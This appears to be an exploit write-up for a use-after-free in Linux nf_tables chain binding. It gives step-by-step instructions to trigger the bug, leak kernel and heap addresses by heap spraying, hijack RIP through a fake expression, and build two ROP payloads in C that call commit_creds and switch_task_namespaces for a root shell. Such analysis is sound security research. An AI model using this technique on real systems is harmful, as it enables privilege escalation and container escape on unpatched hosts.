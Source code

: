 ### Triggering Vulnerability

`nf_tables_newrule` disallows adding a new rule to the bound chain [1], but when adding a rule with `NFTA_RULE_CHAIN_ID` a rule is added to the bound chain [2].

```c
static int nf_tables_newrule(struct sk_buff *skb, const struct nfnl_info *info,
			     const struct nlattr * const nla[])
{
    ...

	table = nft_table_lookup(net, nla[NFTA_RULE_TABLE], family, genmask,
				 NETLINK_CB(skb).portid);
	if (IS_ERR(table)) {
		NL_SET_BAD_ATTR(extack, nla[NFTA_RULE_TABLE]);
		return PTR_ERR(table);
	}

	if (nla[NFTA_RULE_CHAIN]) {
		chain = nft_chain_lookup(net, table, nla[NFTA_RULE_CHAIN],
					 genmask);
		if (IS_ERR(chain)) {
			NL_SET_BAD_ATTR(extack, nla[NFTA_RULE_CHAIN]);
			return PTR_ERR(chain);
		}
		if (nft_chain_is_bound(chain))                  // [1]
			return -EOPNOTSUPP;

	} else if (nla[NFTA_RULE_CHAIN_ID]) {
		chain = nft_chain_lookup_byid(net, table, nla[NFTA_RULE_CHAIN_ID]);     // [2]
		if (IS_ERR(chain)) {
			NL_SET_BAD_ATTR(extack, nla[NFTA_RULE_CHAIN_ID]);
			return PTR_ERR(chain);
		}
	} else {
		return -EINVAL;
	}
```

We can trigger the vulnerability as follows:

- Create two chains, `Base` and `Vulnerable`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create an anonymous set `Victim`.
- Create a set element in set `Victim`.
- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with an `lookup expr` referencing the `Victim`.
- Delete the `R1`. This results in `Victim` being free from the destroy phase [3].
- Delete the set element in `Victim`. This results in a UAF that references `Victim` that was freed in previous step [4].

```c
static void nft_commit_release(struct nft_trans *trans)
{
	switch (trans->msg_type) {
    ...
	case NFT_MSG_DELSET:
		nft_set_destroy(&trans->ctx, nft_trans_set(trans));         // [3]
		break;
	case NFT_MSG_DELSETELEM:
		nf_tables_set_elem_destroy(&trans->ctx,
					   nft_trans_elem_set(trans),                   // [4]
					   nft_trans_elem(trans).priv);
		break;
    ...
}
```

### Information Leak

The KASLR address and heap address are leaked through `nft_rule` allocated in `kmalloc-cg-192`. The leak process is as follows:

- Create four chains, `Base`, `Vulnerable`, `Chain_Victim`, and `Target`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create chains `Chain_Victim2_n`.
- Create an anonymous rhash set `Set_Victim`.
- Create a set element in set `Set_Victim`. The element is allocated in `kmalloc-cg-256`.

- Create rules `Rule_Victim2_n` in `Chain_Victim2_n`. The rules are allocated in `kmalloc-cg-192`.
- Create rules `Rule_Targret_n` in `Target` with an `counter expr`. The rules are allocated in `kmalloc-cg-192`. The kbase and heap address in the `Rule_Targret_n` are used for leak in following step. We can read the target rule allocated right after the `Rule_Victim2_n`.
- Create rules `Rule_Victim_n` in `Chain_Victim` with an `immediate expr` referencing the `Chain_Victim2_n`. The rules are allocated in `kmalloc-cg-256`.

- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with a `lookup expr` referencing the `Set_Victim`.
- Delete the `R1`. This results in `Set_Victim` being free from the destroy phase [3].
- Delete the set element in `Set_Victim`. This results in a UAF that references `Set_Victim` that was freed in previous step [4].

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
				       const struct nft_set *set, void *elem)
{
	struct nft_set_ext *ext = nft_set_elem_ext(set, elem);          // [5]

	if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
		nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));      // [6]

	kfree(elem);
}
```

```c
static inline struct nft_set_ext *nft_set_elem_ext(const struct nft_set *set,
						   void *elem)
{
	return elem + set->ops->elemsize;                       // [7]
}
```

- Spray rhash sets `Set_Spray_n`. When destroying an `nf_tables_set_elem_destroy` element, `nft_set_ext` is used [5], and `nft_set_ext` is retrieved by referencing `set->ops->elemsize` [7]. Thus, a rhash set with `elemsize` of 8 is overwritten by an rbtree set with `elemsize` of 24, causing the `nft_set_elem_expr_destroy` to reference the wrong `nft_set_ext`. We manipulate the offset to destroy the `immedieate expr` in `Rule_Victim_n`, that is allocated after the element, in [6]. This frees `Rule_Victim2_n` in `Chain_Victim2_n`. However, `Chain_Victim2_n` and `Rule_Victim2_n` are remain accessible.
- Spray fake rules using `nft_table->udata` into freed `Rule_Victim2_n` (`kmalloc-cg-192`).
- Get fake rule to obtain kbase (`nft_counter_ops`) and heap address (`nft_rule.list.next` and `nft_rule.list.prev`).

### RIP Control

- Create two chains, `Base`, `Vulnerable`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create an anonymous rbtree set `Set_Victim`.
- Create a set element in set `Set_Victim`. The element is allocated in `kmalloc-cg-256`.
- Spray fake exprs using `table->udata` in `kmalloc-cg-256`.
- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with a `lookup expr` referencing the `Set_Victim`.
- Delete the `R1`. This results in `Set_Victim` being free from the destroy phase.
- Delete the set element in `Set_Victim`. This results in a UAF that references `Set_Victim` that was freed in previous step.
- Create rhash sets `Set_Spray_n`. As a result, the RIP is controlled by referencing the fake expr in the `nf_tables_expr_destroy` [8].

```c
static void nf_tables_expr_destroy(const struct nft_ctx *ctx,
				   struct nft_expr *expr)
{
	const struct nft_expr_type *type = expr->ops->type;

	if (expr->ops->destroy)
		expr->ops->destroy(ctx, expr);      //  [8]
	module_put(type->owner);
}
```

### Post RIP

Since RIP control is performed by the destroy worker, we split the ROP into two phases. In the first ROP payload, we overwrite `counter_ops` with `fake ops` address.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + counter_ops_addr_off;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = heap_addr+0x40;             // fake ops
    data[i++] = kbase + mov_ptr_rdi_rsi;
    data[i++] = kbase + msleep_off;

    data[i++] = 0;
    data[i++] = kbase + push_rbx_pop_rsp_pop_rbp_ret;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = 8;                          // ops.size
    data[i++] = kbase + push_rsi_jmp_rsi_f; // ops.init
}
```

Then, when creating `counter expr`, fake `ops->init` is called and the second ROP payload is executed to get the root shell.

```c
void make_payload2(uint64_t* data){
    int i = 0;

    // commit_creds(&init_cred)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + init_cred_off;
    data[i++] = kbase + commit_creds_off;

    // find_task_by_vpid(1)
    data[i++] = kbase + pop_rdi_ret;
    data[i++] = 1;
    data[i++] = kbase + find_task_by_vpid_off;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + mov_rdi_rax_ret;
    data[i++] = kbase + pop_rsi_ret;
    data[i++] = kbase + init_nsproxy_off;
    data[i++] = kbase + switch_task_namespaces_off;

    data[i++] = kbase + swapgs_restore_regs_and_return_to_usermode_off;
    data[i++] = 0;                  // rax
    data[i++] = 0;                  // rdx
    data[i++] = _user_rip;          // user_rip
    data[i++] = _user_cs;           // user_cs
    data[i++] = _user_rflags;       // user_rflags
    data[i++] = _user_sp;           // user_sp
    data[i++] = _user_ss;           // user_ss
}
```